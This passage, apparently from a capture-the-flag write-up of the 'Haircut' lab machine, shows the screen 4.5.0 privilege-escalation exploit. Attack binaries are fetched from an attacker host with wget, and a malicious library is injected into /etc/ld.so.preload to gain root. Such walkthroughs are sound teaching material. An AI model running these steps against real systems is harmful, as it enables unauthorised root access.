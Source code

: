 ```
rootshell.c:7:5: warning: too many arguments to built-in function ‘execvp’ expecting 2 [-Wbuiltin-declaration-mismatch]

```

There are some warnings, but both binaries exist:

```

root@kali# ls -l libhax.so rootshell
-rwxrwx--- 1 root vboxsf 16136 Sep  3 22:23 libhax.so
-rwxrwx--- 1 root vboxsf 16824 Sep  3 22:23 rootshell

```

I’ll upload both of those to `/tmp` on Haircut:

```

www-data@haircut:/tmp$ wget 10.10.14.15/libhax.so
--2020-09-04 04:26:26--  http://10.10.14.15/libhax.so
Connecting to 10.10.14.15:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16136 (16K) [application/octet-stream]
Saving to: 'libhax.so'

libhax.so           100%[===================>]  15.76K  --.-KB/s    in 0.02s   

2020-09-04 04:26:26 (1013 KB/s) - 'libhax.so' saved [16136/16136]

www-data@haircut:/tmp$ wget 10.10.14.15/rootshell
--2020-09-04 04:26:30--  http://10.10.14.15/rootshell
Connecting to 10.10.14.15:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16824 (16K) [application/octet-stream]
Saving to: 'rootshell'

rootshell           100%[===================>]  16.43K  --.-KB/s    in 0.02s   

2020-09-04 04:26:30 (1.04 MB/s) - 'rootshell' saved [16824/16824]

```

Now to execute, I’ll change into `/etc`, set the `umask`, and run `screen` (making sure to get the right one):

```

www-data@haircut:/tmp$ cd /etc/
www-data@haircut:/etc$ umask 000
www-data@haircut:/etc$ screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" 

```

At this point, `ld.so.preload` should have the reference to `/tmp/libhax.so` (along with some other junk):
